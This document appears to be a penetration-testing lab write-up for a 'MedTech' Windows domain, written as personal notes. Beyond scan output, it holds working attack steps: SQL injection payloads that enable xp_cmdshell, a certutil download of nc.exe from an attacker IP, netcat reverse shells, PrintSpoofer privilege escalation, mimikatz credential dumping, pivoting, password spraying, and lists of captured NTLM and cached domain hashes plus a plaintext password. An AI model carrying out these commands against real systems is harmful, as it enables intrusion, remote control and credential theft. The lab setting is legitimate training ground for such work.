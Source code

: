 windows
```
ping 192.168.177.121
PING 192.168.177.121 (192.168.177.121) 56(84) bytes of data.
64 bytes from 192.168.177.121: icmp_seq=1 ttl=125 time=86.2 ms
64 bytes from 192.168.177.121: icmp_seq=2 ttl=125 time=91.2 ms

```

### rustscan
```
Scanned at 2024-05-23 09:44:00 EDT for 1s

PORT      STATE    SERVICE      REASON
80/tcp    open     http         syn-ack ttl 125
135/tcp   open     msrpc        syn-ack ttl 125
139/tcp   open     netbios-ssn  syn-ack ttl 125
445/tcp   open     microsoft-ds syn-ack ttl 125
5985/tcp  filtered wsman        no-response
47001/tcp open     winrm        syn-ack ttl 125
49664/tcp open     unknown      syn-ack ttl 125
49665/tcp open     unknown      syn-ack ttl 125
49666/tcp open     unknown      syn-ack ttl 125
49667/tcp filtered unknown      no-response
49668/tcp open     unknown      syn-ack ttl 125
49669/tcp open     unknown      syn-ack ttl 125
49670/tcp filtered unknown      no-response
49671/tcp filtered unknown      no-response


```

### nmap
```
kali㉿kali)-[~/Desktop/offsec/med/121]
└─$ sudo nmap -sS -Pn -T4 -sCV -O -A -p80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 192.168.177.121 -oA version.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 09:47 EDT
Nmap scan report for 192.168.177.121
Host is up (0.085s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: MedTech
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (87%)
Aggressive OS guesses: Microsoft Windows Server 2022 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-23T13:48:49
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   74.85 ms 192.168.45.1
2   74.82 ms 192.168.45.254
3   98.79 ms 192.168.251.1
4   98.86 ms 192.168.177.121

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.61 seconds

```

# WEB02
### initial

find login page
tried and tested with SQL

still don't know why I used xp_cmdshell -- **To remote execute commands on MSSQL**

#### enable xp_cmdshell

```
' ;EXEC sp_configure 'show advanced options', 1; RECONFIGURE;-- ';EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--

'; EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
```

#### transfer nc.exe
```
';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.241/nc.exe c:/windows/temp/nc.exe";-- 
```

```
';EXECUTE xp_cmdshell 'C:/Windows/Temp/nc.exe 192.168.45.241 4444 -e cmd.exe';--
```

![[Pasted image 20240601182739.png]]

### creds

![[Pasted image 20240523220300.png]]

**password**
`WhileChirpTuesday218` -------> don't know for what




Version: NetNTLMv2
  Hash:    WEB02$::MEDTECH:1122334455667788:2aa9d016d03bdb69f54ed4234fe50335:0101000000000000c318148b30adda01edb012d6ceb01d8b000000000800300030000000000000000000000000300000d8c929a18f8306528b604ac0f3f091c5301c8c3d9d4689b5c867902e15f0f4230a00100000000000000000000000000000000000090000000000000000000000    


after getting initial foothold on .121 I got few interesting findings

1. MEDTECH NTLMv2
2. SeImpersonatePrivilege enabled
3. pass for something `WhileChirpTuesday218`
4. dual homed IP, definitely will be used for pivot

what should be my steps?

my thinking is to add new user with potato attack and get winrm shell with new admin
### priv esc

```
net use n: \\192.168.45.240\share /user:test test
copy \\192.168.45.246\share\PrintSpoofer.exe
```

work till 2016 printspoofer

SeimpersonatePrivilege
```
PrintSpoofer.exe -c "C:/Windows/Temp/nc.exe 192.168.45.172 5555 -e cmd"
```

![[Pasted image 20240524012232.png]]

![[Pasted image 20240601183031.png]]

### mimikatz

```
mimikatz.exe privilege::debug "sekurlsa::logonPasswords full" exit
```
Got new hashes

**Domain: medtech.com**

Joe - Flowers1
NTLM     : 08d7a47a6f9f66b97b1bae4178747494
SHA1      : a0c2285bfad20cc614e2d361d6246579843557cd

DWM-1
NTLM     : b6191454048eb6ea7bb3058ed8c088f2
SHA1     : b6813ae6c2316b049456dc02ce0122bd62438a5c

### Ligolo
pivot for 172.16.xx.0/24

```
net use n: \\192.168.45.172\share /user:test test
copy \\192.168.45.172\share\agent.exe
```

### spray
sprayed creds of `Joe` to internal network and .11 is where she is local-admin

# File02

got admin access with `Joe`

### dump lsa with nxc

EDTECH.COM/Administrator $DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7:                                                                          
MEDTECH.COM/yoshi: $DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6: 

MEDTECH.COM/wario:$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a: 

MEDTECH.COM/joe:$DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c:


### interesting file

got hashes with some file in documents folder

wario                   NTLM: fdf36048c1cf88f5630381c5e38feb8e

goomba              NTLM: 8e9e1516818ce4e54247e71e71b5f436

toad                    NTLM: 5be63a865b65349851c1f11a067a3068

daisy                    NTLM: abf36048c1cf88f5603381c5128feb8e 








